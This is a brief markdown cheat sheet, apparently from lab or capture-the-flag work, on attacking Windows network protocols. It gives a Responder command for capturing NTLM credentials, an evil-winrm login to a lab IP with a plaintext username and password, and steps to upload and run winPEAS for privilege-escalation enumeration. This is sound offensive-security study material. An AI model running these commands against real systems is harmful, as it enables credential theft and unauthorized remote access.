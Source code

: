 # Windows network protocols

## tools

- [responder](https://github.com/lgandx/Responder)
  - `sudo responder -I tun0`
  - [hacktricks - places to steal ntlm creds](https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds)

## WinRM - 5985,5986 - Windows Remote Management

- [hacktricks WinRM](https://book.hacktricks.xyz/network-services-pentesting/5985-5986-pentesting-winrm)

- `mv winPEASx64.exe ./executables`
- `evil-winrm -i 10.10.11.106 -P 5985 -u 'tony' -p 'liltony' -s scripts -e executables `

  - `cd \programdata`
  - `upload executables/winPEASx64.exe`
  - `.\winPEASx64.exe`
